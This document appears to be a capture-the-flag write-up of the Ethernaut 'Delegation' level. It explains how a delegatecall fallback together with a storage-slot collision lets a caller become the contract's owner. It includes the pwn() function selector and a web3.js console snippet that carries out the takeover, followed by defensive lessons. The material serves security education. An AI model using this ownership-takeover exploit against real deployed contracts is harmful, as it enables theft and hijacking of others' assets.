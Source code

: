 # Level 6: Delegation

## Challenge Overview

The `Delegation` challenge highlights the dangers of using `delegatecall` with untrusted contracts.  
The goal is to gain ownership of the `Delegation` contract by exploiting a vulnerable `delegatecall`.

## Goal

- Execute the `pwn()` function in the `Delegate` contract through `delegatecall` to take ownership.

## Solution

1. Both contracts declare their first variable as `owner` at storage slot 0.  
   When `Delegate.pwn()` executes via `delegatecall`, it writes to the caller’s slot 0 —  
   i.e. the `Delegation` contract’s `owner`.

2. Any calldata sent to `Delegation` that doesn’t match a defined function hits this fallback,  
   forwarding the exact bytes (`msg.data`) to `Delegate` via `delegatecall`:

```solidity
fallback() external {
    (bool ok, ) = address(delegate).delegatecall(msg.data);
    require(ok);
}
```

3. Find the function selector for `pwn()`:
```text
0xdd365b8b
```

4. Invoke the fallback via web3.js.  
You can paste this into the Ethernaut browser console:

```javascript
// 2.1) Store the selector
const selector = "0xdd365b8b";

// 2.2) Send it to the fallback
await sendTransaction({
  from: player,            // your EOA address
  to: contract.address,    // Delegation’s address
  data: selector           // invokes Delegate.pwn() via delegatecall
});

// 2.3) Verify ownership
console.log("new owner:", await contract.owner());
// Should print your player address
```

5. After running the transaction, check that:

```javascript
(await contract.owner()) === player
```

---

## Lessons Learned

- Using `delegatecall` without strict ABI control can let external code overwrite your contract’s state slots.
- Never allow raw `msg.data` to determine which functions run via `delegatecall`.

